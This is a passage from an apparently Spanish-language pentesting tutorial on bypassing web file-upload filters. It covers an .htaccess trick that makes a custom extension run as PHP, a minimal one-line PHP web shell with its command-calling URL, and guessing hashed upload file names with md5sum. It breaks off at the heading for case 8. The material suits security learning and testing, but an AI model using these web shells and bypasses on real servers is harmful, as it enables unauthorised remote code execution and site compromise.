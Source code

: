 #### Caso 5, **htaccess**

No permite subir php, y las alternativas a php usadas en el caso anterior o no las sube o no las interpreta.

En este caso nos aprovecharemos el .htaccess. El archivo htaccess (acceso de hipertexto) es un archivo oculto que se utiliza para configurar funciones adicionales para sitios web alojados en el servidor.  
En este archivo podríamos decirle por ejemplo que los archivos con extensión .caracol los interpretara como php.

Para conseguirlo primero tendremos que probar a subir un archivo llamado .htaccess, en el Content-Type mejor poner text/plain. El contenido de ese archivo sería algo así:
```bash
AddType application/x-httpd-php .caracol     
# Todos los archivos .caracol serán ejecutados como .php
```
Si ahora subimos el archivo.caracol lo interpretaría como php. Si funciona guay, si no es que desde el servidor nos prohiben subir archivos .htaccess(lo que es conveniente) y tendríamos que seguir probando con el caso 5.

#### Caso 6, límites en el tamaño permitido**:

Te señala que hay un máximo de tamaño de archivo. Habría dos maneras de intentar bypassearlo:  
1. Si  ves un campo size en el burp cambiarlo a otro valor más grande.
2. Reducir el contenido del php lo máximo posible. Podría reducirse así y debería seguir funcionando:
```php
<?=`$_GET[0]`?>

# Sería lo mismo que el típico php que usamos de:
# <?php system($_GET['cmd']); ?>
```
Para llamar al recurso; `http://WEB/uploads/archivo.php?0=COMANDO`.

#### Caso 7, **cambio de nombre en la subida:**

Puede que al subir el archivo lo guarden con otro nombre. Podría ser que le pasen una conversión a md5, sha-0, sha-1, otros personalizados, etc. Si no tenemos acceso al código no podremos llevar a las conversiones personalizadas o más complicadas, pero si podemos probar algunas básicas como md5. Si por ejemplo hemos subido el archivo con nombre pwn.php, podríamos realizar estas conversiones con md5sum:
```bash
echo -n "pwn" | md5sum
# En este caso a la hora de llamarlo habrá que añadir .php

echo -n "pwn.php" | md5sum

md5sum pwn.php

# Cada comando obendrá un resultado en md5. 
# Lo mismo para otros algortimos de hash.
```

#### Caso 8, **no sabes directorio donde se aloja**:

